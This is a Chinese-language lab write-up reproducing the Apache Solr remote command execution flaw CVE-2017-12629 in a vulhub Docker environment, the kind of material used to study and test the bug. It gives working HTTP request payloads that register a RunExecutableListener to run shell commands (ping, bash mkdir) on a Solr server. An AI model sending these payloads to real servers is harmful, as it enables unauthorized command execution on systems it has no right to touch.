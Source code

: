 ```yaml
---
title:  Apache Solr RCE 远程命令执行漏洞 CVE-2017-12629
---
```


# Apache Solr RCE 远程命令执行漏洞 CVE-2017-12629

## 漏洞描述
Apache Solr 是一个开源的搜索服务器。Solr 使用 Java 语言开发，主要基于 HTTP 和 Apache Lucene 实现。原理大致是文档通过Http利用XML加到一个搜索集合中。查询该集合也是通过 http收到一个XML/JSON响应来实现。此次7.1.0之前版本总共爆出两个漏洞：XML实体扩展漏洞（XXE）和远程命令执行漏洞（RCE），二者可以连接成利用链，编号均为CVE-2017-12629。

## 影响版本
<a-checkbox checked>Apache Solr < 7.1</a-checkbox></br>

## 环境搭建
```shell
git clone https://github.com/vulhub/vulhub.git
cd vulhub/solr/CVE-2017-12629
docker-compose build
docker-compose up -d
```

## 漏洞复现
先请求url地址获取 core 内容
```shell
/solr/admin/cores
```
通过查看代码，能够触发命令执行的事件有两个：`postCommit` 和`newSearcher`

![ec27d0b9-f86d-43b7-9fe4-1bba02cbf334](../../../.vuepress/public/img/ec27d0b9-f86d-43b7-9fe4-1bba02cbf334.png)



第一个请求包用于载入缓存中

```
exe : ping  执行的命令
dir: 命令存在的目录位置
args:命令参数
```

如下请求包执行的是 /bin/ping 1.1.1.1

```shell
POST /solr/demo/config HTTP/1.1
Host: xxx.xxx.xxx.xxx:8983
Connection: close
Content-Type: application/json  
Content-Length: 198

{
  "add-listener" : {
    "event":"postCommit",
    "name":"newlistener-1",
    "class":"solr.RunExecutableListener",
    "exe":"ping",
    "dir":"/bin/",
    "args":["1.1.1.1"]
  }
}
```

![image-20220307151501330](../../../.vuepress/public/img/image-20220307151501330.png)

第二个请求包用于更新缓存并执行命令

```shell
POST /solr/demo/update

[{"id":"test"}]
```
进入docker容器查看发现命令已经执行

![53ffedcf-5cc3-42cf-9623-a076ed001ac8](../../../.vuepress/public/img/53ffedcf-5cc3-42cf-9623-a076ed001ac8.png)

使用 newSearcher可以直接加载入缓存执行命令

```shell
POST /solr/demo/config HTTP/1.1
Host: xxx.xxx.xxx.xxx:8983
Connection: close
Content-Type: application/json  
Content-Length: 198

{
  "add-listener" : {
    "event":"newSearcher",
    "name":"newlistener-2",
    "class":"solr.RunExecutableListener",
    "exe":"bash",
    "dir":"/bin/",
    "args":[
         "-c",
         "mkdir /tmp/vuln",
    ]
  }
}
```

成功执行了创建文件的命令

![567692f5-4845-439f-b747-020011068da8](../../../.vuepress/public/img/567692f5-4845-439f-b747-020011068da8.png)

如果想要执行其他命令,则需要命令的的位置，例如执行ping，则需要设置dir参数为 /usr/bin/ping 或者 /bin/ping，如果需要检测漏洞是否存在则可以使用 dnslog来检测

